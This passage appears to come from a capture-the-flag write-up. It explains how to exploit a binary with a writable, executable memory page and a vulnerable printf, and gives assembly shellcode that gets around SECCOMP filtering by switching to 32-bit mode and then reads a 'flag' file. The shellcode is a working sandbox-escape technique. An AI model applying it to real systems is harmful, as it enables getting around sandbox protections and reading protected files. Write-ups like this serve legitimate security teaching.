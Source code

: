 And the place to store shellcode is found. This is a specially created RWX page which we can
write and then execute. This page is filled with NOPs and it means we put shellcode at any offset.
NOPs guarantee that our shellcode will be executed.

## Exploitation

So the exploitation will consists of 2 parts:
1. Create an shellcode to bypass SECCOMP rules.
2. Upload the shellcode to RWX page using vulnerable `printf` calls.

The first step is to craft shellcode with switching to i386 mode through jump to an desired address 
with special segment selector (just xor call address with `0x2300000000`) and then ordinary x86 
ABI syscalls can be used to read `flag` file.

Here is how switch to x86 mode looks like:

```c
    call $+5
    pop rax  /* get rip */
    add rax, 0x14 /* offset from $ to .i386_shellcode */
    mov rsi, 0x2300000000
    xor rax, rsi
    push rax
    retfd
```

Next we can use ordinary i386 shellcode to read `flag` file from current directory. But before
using it we need switch to a new stack. It is because our shellcode requires stack to be present
but previous stack pointer refers to 64 bit address which is not accessible from x86 mode.

```c
.i386_shellcode:
    /* pivot stack */
    mov esp, {hex(stack_addr)}
    /* open */
    mov eax, 0x5 /* syscall */
    push 0 /** '\x00\x00\x00\x00' **/
    push 0x67616c66 /** 'flag' **/
    mov ebx, esp /* filename */
    xor ecx, ecx /* mode */
    xor edx, edx /* flags */
    int 0x80
    /* read */
    mov ebx, eax /* fd */
    mov eax, 3 /* syscall */
    sub esp, 0x40
    mov ecx, esp /* buffer */
    mov edx, 0x40 /* count */
    int 0x80
    /* write */
    mov eax, 4 /* syscall */
    mov ebx, 1 /* fd */
    int 0x80
```
